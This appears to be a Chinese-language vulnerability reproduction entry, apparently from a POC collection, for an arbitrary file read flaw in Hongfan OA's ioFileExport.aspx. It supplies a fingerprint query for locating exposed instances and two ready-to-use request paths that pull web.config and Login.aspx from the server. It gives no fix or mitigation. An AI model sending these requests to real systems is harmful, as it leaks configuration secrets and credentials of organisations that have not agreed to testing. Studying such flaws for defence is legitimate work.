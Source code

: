 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>红帆OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="红帆-ioffice"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/image-20210722221951490.png)



验证POC, 读取web.config文件

```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![img](../../../.vuepress/public/img/image-20210722222340956.png)



```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```



![img](../../../.vuepress/public/img/image-20210722222608934.png)